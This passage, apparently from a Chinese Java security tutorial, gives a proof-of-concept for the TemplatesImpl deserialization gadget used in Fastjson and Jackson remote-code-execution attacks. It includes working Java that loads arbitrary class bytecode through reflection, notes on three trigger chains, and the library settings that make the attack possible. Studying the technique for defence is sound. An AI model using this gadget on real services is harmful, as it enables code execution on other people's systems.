 构造简单的 POC：

```java
/**
* 使用反射修改 TemplatesImpl 类的成员变量方式触发命令执行，Jackson 和 Fastjson 采用这种方式触发RCE
*
* TemplatesImpl 中 _bytecodes 成员变量，用于存储类字节码，通过 JSON 反序列化的方式可以修改该变量值，但因为该成员变量没有可映射的 get/set 方法所以需要修改 JSON 库的虚拟化配置，比如 Fastjson 解析时必须启用Feature.SupportNonPublicField、Jackson 必须开启JacksonPolymorphicDeserialization（调用mapper.enableDefaultTyping()），所以利用条件相对较高。
*
* @throws Exception 调用异常
*/
public static void main(String[] args) throws Exception {
    String filepath = "C:\\Test.class";
    byte[] evilBytes = Files.readAllBytes(Paths.get(filepath));

    TemplatesImpl templates = new TemplatesImpl();
    setFieldValue(templates, "_bytecodes", new byte[][]{evilBytes});
    setFieldValue(templates, "_name", "org.example.Test");
    setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

    // 利用链 1
    // templates.getTransletIndex();
    // Class.forName("org.example.Test");

    // 利用链 2
    templates.newTransformer();

    // 利用链 3
    // templates.getOutputProperties();
}

public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
    Field field = obj.getClass().getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, value);
}
```

在 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 类中：

- `_bytecodes` 属性，用来存储类字节码
- `_tfactory` 属性，对该模板对象所属的转换器工厂的引用（需要一个 TransformerFactoryImpl 对象，因为 `TemplatesImpl#defineTransletClasses()` 方法里有调用到 `_tfactory.getExternalExtensionsMap()` ，如果是 null 会出错。）
- `_name` 属性，主类的名称，如果未知则为默认名称（可以是任意字符串，只要不为 null 即可）
